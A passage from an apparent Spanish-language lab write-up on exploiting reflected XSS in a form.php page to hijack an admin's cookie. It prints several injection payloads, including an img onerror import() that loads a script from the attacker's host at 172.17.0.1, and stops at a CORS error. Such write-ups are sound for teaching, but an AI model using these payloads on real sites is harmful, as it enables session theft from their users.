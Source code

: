 En este punto podemos pensar que hemos terminado el laboratorio, pero la finalidad del mismo es robarle la **cookie** al **admin**.

Para poder acontecer un **Cookie Hijacking** debemos de poder cargar un recurso externo, para ello en primer lugar probaremos la siguiente inyección.

```http
trr0rlabs.bbl/form.php/"><script src="http://172.17.0.1"></script>
```

Como vemos no nos llega ninguna la petición por lo que no seremos capaces de acontecer el **Cookie Hijacking** con el anterior **payload**.

![](<../assets/images/posts/2025-02-13-trr0rlabs/Pasted image 20250202220535.png>)

Tras buscar y buscar diferentes formas de cargar recursos externos me encontré con el siguiente recurso [Load external resoruce vía XSS](https://trustedsec.com/blog/cross-site-smallish-scripting-xsss), en el cual se ejemplifican diferentes formas de cargar recursos externos.

Después de probar diferentes **payloads** el que realmente nos funcionará será el siguiente.

```http
trr0rlabs.bbl/form.php/"><img src/onerror=import("http:172.17.0.1")>
```

Tal y como vemos a continuación, gracias a la anterior inyección conseguimos recibir la petición.

![](<../assets/images/posts/2025-02-13-trr0rlabs/Pasted image 20250202221204.png>)

Usando el mismo **payload** comprobaremos si podemos cargar un recurso externo.

```http
trr0rlabs.bbl/form.php/"><img src/onerror=import("http:172.17.0.1/pwned.js")>
```

Veremos que no recibimos ninguna petición por lo que algo está funcionando mal.

![](<../assets/images/posts/2025-02-13-trr0rlabs/Pasted image 20250202221356.png>)

Mirando la consola de navegador veremos el siguiente error relacionado con la inexistencia de la cabecera `Access-Control-Allow-Origin: *` de tipo **CORS (Cross-Origin Resource Sharing)**.

![](<../assets/images/posts/2025-02-13-trr0rlabs/Pasted image 20250202221445.png>)
